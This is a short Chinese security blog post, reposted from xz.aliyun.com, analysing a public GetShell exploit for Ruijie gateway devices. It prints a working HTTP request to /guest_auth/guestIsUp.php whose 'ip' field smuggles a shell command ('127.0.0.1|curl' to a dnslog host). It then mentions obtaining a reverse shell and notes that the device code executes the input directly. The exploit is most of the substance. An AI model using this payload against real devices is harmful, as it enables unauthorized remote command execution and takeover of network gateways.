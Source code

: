 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/9016?accounttraceid=c50077859b5d464683c8caa2f614ea1fzuqw)

2020 1-11 看到群里发了一个锐捷网关系列通杀 GetShell 的漏洞  
[https://github.com/Tas9er/EgGateWayGetShell](https://github.com/Tas9er/EgGateWayGetShell)

下载 jar 文件。使用 jd-gui 打开源码。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210112114502-8d23b836-5488-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210112114502-8d23b836-5488-1.png)

可以看到的是。  
通过 POST /guest_auth/guestIsUp.php URL post 了一个代码执行的命令。

EXP 如下：

```
POST /guest_auth/guestIsUp.php HTTP/1.1
Host: 192.168.10.1
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 56


mac=1&ip=127.0.0.1|curl xxx.dnslog.cn
```

反弹 shell 回来。查看一下代码是什么样子的。  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210112114741-ebcd8ee8-5488-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210112114741-ebcd8ee8-5488-1.png)

啊。这。代码。直接调用 cmd 代码执行了。